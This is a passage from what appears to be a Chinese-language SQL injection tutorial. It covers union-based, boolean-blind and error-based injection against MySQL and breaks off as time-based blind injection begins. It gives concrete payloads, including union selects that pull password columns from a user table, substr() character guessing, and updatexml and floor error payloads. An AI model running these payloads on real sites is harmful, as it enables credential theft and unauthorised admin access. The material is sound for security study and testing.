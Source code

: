 - 二、三位显示出来了，那么即可在这两个位置写入sql语句；

- 查询当前数据库,当前mysql用户 union select 1,user(),database()；

- 查询当前数据库里面的表 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="data_name";

- 查询到敏感表名user，继续查询表里面的字段 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="user";

- 查询字段，例如“id”、"passwd"的内容 union select 1,id,passwd from user;

- 拿到用户、密码登入后台。

## Boolean注入攻击-布尔盲注

- 查看现象，能报错，但没有报错信息，正确查询也显示不了查询内容就属于布尔盲注，只存在两种状态，对或错；
- 由页面的两种不同返回的状态来判定我们的闭合规则；
- 为了方便，我们这里假设返回正确用“yes”，返回错误用“no”来表示这两种状态
- 找到闭合规则后，我们在闭合规则里面 and 1=1 和 and 1=2 测试一下，看看最后返回是不是两种状态；
- 布尔盲注要用到length()和substr()语句，用两种状态来猜解数据库、表名等的长度和正确字母；
- 先用 and length(database())>2 来猜数据库的长度，使用的是二分法；
- 再用 and substr(database(),1,1)='t' 来确定第一个字母，可用burp跑，26个字母,哪个字母返回yes则代表第一个字母就是它；
-  and substr(database(),2,1)='t' 代表当前数据库的第二个字母；
- 最后结合长度，成功的将数据库猜解出来；
- 后面的操作跟union注入的步骤差不多了，只是sql语句写在 上文的 database() 处。

## 报错注入攻击

- 只要注入点有sql报错信息，那么就可以使用报错注入；

- 还是一样，引号报错，然后找到闭合规则，页面正常显示，则可以在闭合规则中开始写入报错注入的sql语句；

- updatexml报错获取当前数据库：

```sql
and updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

- floor报错获取当前数据库

```sql
and (select 1 from (select count(*),concat((database()),floor (rand(0)*2))x from information_schema.tables group by x)a)
```

- 两种方式都可行，如果第一个不行就试试第二个

- 接着可以利用select语句替换掉上面database()来继续获取数据库中的表名、字段名，查询语句和union注入攻击的语句相同；

- 只不过这里不能再使用group_concat了，因为报错注入只显示一条结果，所以需要使用limit语句；

##  时间注入攻击-时间盲注

- 没有明确的现象，不管是对是错都返回一个状态；

- 但是如果用sleep(5)方法，能让响应时间延迟为5秒以上，那么就为时间盲注；
